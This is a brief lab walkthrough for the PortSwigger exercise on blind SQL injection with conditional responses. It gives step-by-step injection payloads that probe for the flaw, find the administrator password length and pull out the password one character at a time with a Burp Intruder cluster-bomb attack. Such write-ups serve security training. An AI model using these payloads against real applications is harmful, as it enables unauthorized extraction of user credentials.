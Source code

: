 # [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Step - 1
---
```
'
```
Content Length Change because Single Quotes

Step - 2
---
```
' AND '1'='1
```

Step - 3
---
```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
```
Content Length Change
1. password Length: `20`

Step - 4
---
```
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```
1. Attack Type: `Cluster bomb`
1. Payload Set 1: `1-20`
1. Payload Set 2: `a-z`